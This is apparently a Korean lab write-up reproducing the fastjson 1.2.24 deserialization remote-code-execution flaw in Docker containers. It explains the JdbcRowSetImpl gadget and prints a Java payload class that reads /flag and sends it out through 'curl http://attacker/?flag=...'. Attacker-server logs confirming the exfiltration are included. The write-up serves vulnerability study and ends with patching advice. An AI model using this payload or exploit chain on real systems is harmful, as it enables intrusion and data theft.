

# fastjson 1.2.24 역직렬화 취약점으로 인한 원격 임의코드 실행
> [동헌희_4412(hui1601)](https://github.com/hui1601)

**AMD64 아키텍처에서 동작합니다.**
## 요약

fastjson은 클래스를 인스턴스화하고 해당 클래스 메서드의 자료형에 따라 json 구문 분석에서 자동 유형 사용을 지원한다. 일부 악의적인 익스플로잇 코드는 코드에서 관련 메서드를 조회하여 설정할 수 있다.

## 분석
fastjson은 `@type` 필드를 통해 클래스를 인스턴스화하고 해당 클래스 메서드의 자료형에 따라 json 구문 분석에서 자동 유형 사용을 지원한다.
또한 역직렬화 과정 중, `setter`, `getter`가 존재하면 해당 메서드를 호출하고, 없을 경우에만 `field`에 값을 직접 할당한다.
이를 이용해 `@type` 필드에 `com.sun.rowset.JdbcRowSetImpl` 클래스를 지정하고 `dataSourceName` 필드에 악의적인 코드를 입력하고, `autoCommit` 필드에 `true` 값을 입력하면, `setAutoCommit` 메서드가 호출되어 악의적인 코드가 실행된다.

## 환경 구성 및 실행
```sh
docker compose up -d # 공격자, 피해 서버 컨테이너의 Dockerfile을 빌드하고 실행된다. 이때, 피해 서버의 `/flag` 파일에 플래그가 저장되어 있다.
```
먼저 공격자와 피해 서버를 docker compose로 실행한다.
```sh
docker exec -it 1224-rce-attacker-1 /bin/bash
```
공격자 컨테이너로 접속한다.
```sh
./exploit.sh
```
`exploit.sh` 스크립트를 실행하여 취약점을 익스플로잇한다.
```java
import java.lang.Runtime;
import java.math.BigInteger;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.stream.Stream;
public class TouchFile {
    static {
        try {
            Stream<String> stream = Files.lines(Paths.get("/flag"));
            String flag = stream.findFirst().get();
            String hex = String.format("%x", new BigInteger(1, flag.getBytes()));
            Runtime.getRuntime().exec("curl http://attacker/?flag=" + hex);
        } catch (Exception ignore) {}
    }
}
```
exploit.sh에서 익스플로잇할 때 사용하는 `TouchFile.class` 파일이다. `TouchFile` 클래스는 `/flag` 파일을 읽어들여 `flag` 파일의 내용을 공격자에게 전송하는 코드를 포함하고 있다.
## 결과
```sh
docker container logs 1224-rce-attacker-1 # 공격자 컨테이너 로그를 확인한다.(python3 -m http.server 80 의 로그)
```
```
172.30.0.2 - - [05/May/2024 07:23:00] "GET /TouchFile.class HTTP/1.1" 200 -
172.30.0.2 - - [05/May/2024 07:23:00] "GET /?flag=464c41477b666173746a736f6e5f312e322e32345f7263657d HTTP/1.1" 200 -
```


공격자 컨테이너 로그를 확인하면 `TouchFile.class` 파일을 읽어들여 실행하고, 실행된 클래스가 `/flag` 파일의 내용을 공격자에게 전송하는 것을 확인할 수 있다.

## 정리

해당 취약점은 fastjson 1.2.24 버전에서 발생하는 역직렬화 취약점으로, 공격자가 악의적인 코드를 입력하여 피해 서버에서 임의코드를 실행할 수 있다. 따라서, 주기적인 취약점 점검과 의존성 업데이트를 통해 취약점을 방지하는 것이 중요하다.